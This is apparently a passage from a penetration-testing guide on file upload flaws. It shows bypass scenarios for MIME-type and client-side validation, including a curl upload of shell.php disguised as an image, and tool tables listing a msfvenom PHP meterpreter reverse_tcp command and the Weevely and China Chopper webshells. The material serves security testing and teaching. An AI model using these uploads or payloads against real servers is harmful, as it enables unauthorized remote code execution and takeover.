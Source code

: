 #### Scenario 2: MIME Type Validation Only
```bash
# Problem: Server validates Content-Type but ignores file content
# Solution: Upload malicious file with legitimate MIME type

curl -X POST -H "Content-Type: multipart/form-data" \
     -F "file=@shell.php;type=image/jpeg" \
     http://target.com/upload.php
```

#### Scenario 3: Client-Side Validation Bypass
```bash
# Problem: JavaScript blocks certain file types in browser
# Solution: Use proxy tools to bypass client-side restrictions

# Intercept with Burp Suite:
# 1. Upload legitimate file type to pass JS validation
# 2. Intercept request in Burp Suite
# 3. Change filename and Content-Type to malicious values
# 4. Forward modified request
```

---

## 🔧 Tools and Testing Framework

### Essential Tools for File Upload Testing

#### Manual Testing Tools
| Tool | Purpose | Usage Example |
|------|---------|---------------|
| **Burp Suite** | Request interception/modification | Intercept upload, modify headers |
| **OWASP ZAP** | Automated security scanning | Scan for upload vulnerabilities |
| **curl** | Command-line HTTP client | Manual upload testing |
| **wget** | File download/upload | Alternative HTTP client |

#### WebDAV-Specific Tools
| Tool | Purpose | Usage Example |
|------|---------|---------------|
| **davtest** | WebDAV capability testing | `davtest -auth user:pass -url http://target/webdav/` |
| **cadaver** | Interactive WebDAV client | `cadaver http://target/webdav/` |
| **nikto** | Web vulnerability scanner | WebDAV enumeration and testing |
| **nmap** | Network service discovery | `nmap --script http-webdav-scan target` |

#### Payload Generation Tools
| Tool | Purpose | Usage Example |
|------|---------|---------------|
| **msfvenom** | Payload generation | `msfvenom -p php/meterpreter/reverse_tcp` |
| **Weevely** | PHP webshell generator | `weevely generate password shell.php` |
| **China Chopper** | ASP/ASPX webshell | Pre-built webshell collection |
